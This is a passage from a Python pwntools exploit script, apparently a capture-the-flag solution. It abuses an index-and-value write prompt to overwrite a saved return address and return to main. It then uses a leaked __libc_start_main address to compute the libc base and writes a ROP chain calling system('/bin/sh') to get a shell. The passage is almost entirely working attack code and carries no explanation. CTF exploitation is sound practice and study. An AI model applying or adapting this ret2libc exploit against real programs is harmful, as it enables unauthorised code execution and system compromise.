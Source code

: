 ```
log.info("push_r15_addr -&gt;&gt; "+push_r15_addr)
push_r15_addr = eval("0x"+push_r15_addr)

main_addr = push_r15_addr - 0x23b

# cover ret_addr
offset = 0x150+8
main_addr = p64(main_addr).encode("hex")
print main_addr
num = 0
for x in range(8):
    r.recvuntil("input indexn")
    r.sendline(str(offset+x))
    r.recvuntil("input new valuen")
    r.sendline(str(eval("0x"+main_addr[num:num+2])))
    print str(eval("0x"+main_addr[num:num+2]))
    num = num + 2

log.info("------------------- success cover! -------------------")
for x in range(41-24):
    r.recvuntil("input indexn")
    r.sendline("0")
    r.recvuntil("input new valuen")
    r.sendline("0")

r.recv()
r.sendline("yes")
r.recv()

log.info("------------------- ret main success ---------------")

pop_rdi_addr =  99+push_r15_addr

__libc_start_main_addr = __libc_start_main_231_addr-231
# libc = LibcSearcher("__libc_start_main",__libc_start_main_addr)
libc = ELF("./libc.so.6")
base_addr = __libc_start_main_addr-libc.symbols["__libc_start_main"]
print hex(base_addr)
system_addr = libc.symbols['system']+base_addr
bin_sh_addr = 0x000000000017d3f3+base_addr
log.info("system_addr: "+hex(system_addr))
log.info("bin_sh_addr: "+hex(bin_sh_addr))

payload = (p64(pop_rdi_addr)+p64(bin_sh_addr)+p64(system_addr)).encode("hex")
print payload

r.sendline("radish")

num = 0
for x in range(0,24):
    r.recvuntil("input indexn")
    r.sendline(str(offset+x))
    r.recvuntil("input new valuen")
    r.sendline(str(eval("0x"+payload[num:num+2])))
    print str(eval("0x"+payload[num:num+2]))
    num = num + 2

log.info("------------------- cover payload success ---------------")
for x in range(41-24):
    r.recvuntil("input indexn")
    r.sendline("0")
    r.recvuntil("input new valuen")
    r.sendline("0")
```
